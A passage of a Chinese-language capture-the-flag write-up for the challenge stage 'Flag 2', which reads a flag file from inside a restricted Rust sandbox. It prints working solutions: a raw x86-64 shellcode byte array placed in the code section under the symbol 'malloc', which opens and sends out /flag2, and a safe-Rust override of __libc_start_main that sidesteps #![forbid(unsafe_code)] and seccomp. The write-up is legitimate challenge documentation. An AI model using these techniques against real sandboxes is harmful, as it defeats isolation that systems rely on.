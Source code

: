 ![](assets/rust-2.png)

## Flag 2: 读取打开的 /flag2 文件

同第一问的方法3, 但这里的 malloc 就是要执行的 shellcode 了.

```rust
#![forbid(unsafe_code)]

#[no_mangle]
#[link_section = ".text"]
pub static malloc: [u8; 53] = [
    0x48, 0xb8, 0x1, 0x1, 0x1, 0x1, 0x1, 0x1, 0x1, 0x1, 0x50, 0x48, 0xb8, 0x2e, 0x67, 0x6d, 0x60, 0x66, 0x33, 0x1, 0x1, 0x48, 0x31, 0x4, 0x24, 0x6a, 0x2, 0x58, 0x48, 0x89, 0xe7, 0x31, 0xf6, 0xf, 0x5, 0x41, 0xba, 0xff, 0xff, 0xff, 0x7f, 0x48, 0x89, 0xc6, 0x6a, 0x28, 0x58, 0x6a, 0x1, 0x5f, 0x99, 0xf, 0x5,
];

pub fn run() { }

//EOF
```

不过既然都能用 shellcode 了, 那我用点 safe rust 的代码不更没啥问题了吗? 反正 seccomp 也不起作用了. 而且你甚至还可以让你的程序正常退出:

```rust
#![forbid(unsafe_code)]

use std::{fs::read_to_string, process::exit};

#[no_mangle]
#[link_section = ".text"]
fn __libc_start_main() { // `__libc_start_main` is also in `.got`
    println!("{}", read_to_string("/flag2").unwrap());
    exit(0);
}

pub fn run() { }

//EOF
```